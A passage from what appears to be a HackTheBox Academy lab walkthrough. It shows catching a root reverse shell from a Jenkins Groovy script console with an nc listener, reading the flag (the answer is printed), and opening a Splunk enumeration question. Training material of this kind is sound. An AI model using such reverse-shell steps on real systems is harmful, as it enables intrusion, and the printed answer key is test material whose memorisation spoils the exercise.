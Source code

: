 Thereafter, students need to start an `nc` listener on Pwnbox/`PMVPN`, specifying the same port used in the `Groovy script` reverse-shell:

Code: shell

```shell
nc -nvlp PWNPO
```

```
┌─[us-academy-1]─[10.10.14.6]─[htb-ac413848@htb-f6k4hfqgg8]─[~]
└──╼ [★]$ nc -nvlp 9001

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
```

Now, students can click on "Run" in the `Jenkins` web page, and the reverse-shell session will be established:

```
Ncat: Connection from 10.129.201.58.
Ncat: Connection from 10.129.201.58:38942.

whoami

root
```

At last, students can print out the flag file "flag.txt":

Code: shell

```shell
cat flag.txt
```

```
cat flag.txt

f33ling_gr00000vy!
```

Answer: `f33ling_gr00000vy!`

# Splunk - Discovery & Enumeration

## Question 1

### "Enumerate the Splunk instance as an unauthenticated user. Submit the version number to move on (format 1.2.3)."

After spawning the target machine, students need to launch an `Nmap` scan to enumerate its services and their versions:
